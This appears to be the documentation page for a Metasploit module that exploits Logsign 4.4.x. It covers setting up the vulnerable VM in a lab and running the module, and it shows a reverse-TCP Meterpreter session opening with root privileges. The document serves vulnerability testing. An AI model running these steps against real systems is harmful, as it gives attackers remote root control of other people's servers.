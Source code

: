 ## Vulnerable Application

Download the vulnerable version of OVA or ISO file from following URL. I strongly suggest you to choose OVA.

[http://s3-eu-west-1.amazonaws.com/innotim/Logsign.ova](http://s3-eu-west-1.amazonaws.com/innotim/Logsign.ova)
[http://s3-eu-west-1.amazonaws.com/innotim/forest-4.4.1-12.04.iso](http://s3-eu-west-1.amazonaws.com/innotim/forest-4.4.1-12.04.iso)

### Creating A Testing Environment

1. Open OVA file with your preferred virtualisation application.
2. Before starting the virtual machine, choose NAT mode for interface.
3. Once the machine started, you must be seeing following information on screen.
```
Ubuntu 12.04.05 LTS - logsign customer tty1
IP: 12.0.0.10
...
Version: Focus
4.4.2 
```
4. Access the management interface by visiting `https://<ip_address>` through your browser.
5. Complete the installation by just submitting the fake data. 

**Please follow below instructions if you are seeing different IP address on the screen that doesn't belong to your NAT network range.**

Right after step 3, I've started to see totally different IP address on the screen which was something like 10.0.0.X. Since there is no such a network range in my configuration, it's impossible access to the machine through network. Here is the steps that shows how you can fix this issue. Follow these instructions and then go back to the step 5.

1. Reboot the machine
2. Start pressing ```shift``` button at the very beginning and keep pressing until you see GRUB menu.
3. Choose second line and press enter. We are going to about boot machine with recovery mode.
4. You must be seeing terminal right now. Execute following commands.
```
mount -rw -o remount /
```
5. Execute following command specify a new password for root user.
 ```
 passwd root
 ```
6. As a final step, reboot the machine.
 ```
reboot
 ```
7. Login with your root user.
8. Open ```/etc/network/interfaces``` file and perform necessary changes. Here is my own configuration. 
```
address 12.0.0.10
netmask 255.255.255.0
<removed line starting with 'network'>
<removed line starting with 'broadcast'>
gateway 12.0.0.2
dns-nameservers 8.8.8.8
```
9. Reboot the machine for a last time.

## Verification Steps

  1. Install the software as documented above
  2. Start `msfconsole`
  3. `use exploit/linux/http/logsign_exec`
  4. `set rhost 12.0.0.10`
  6. `python/meterpreter/reverse_tcp` is configured as a default payload. Change it if you need. Most of the case, you're okay go with default payload type.
  7. `set LHOST 12.0.0.1`
  8. `check` and validate that you are seeing following output.

```
[+] 12.0.0.10:80 The target is vulnerable.
```

  9. Here you go. Type `exploit` and hit the enter.

```
[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Delivering payload...
[*] Sending stage (38651 bytes) to 12.0.0.10
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.10:46057) at 2017-02-28 14:11:20 +0100

meterpreter > getuid
Server username: root
meterpreter >
```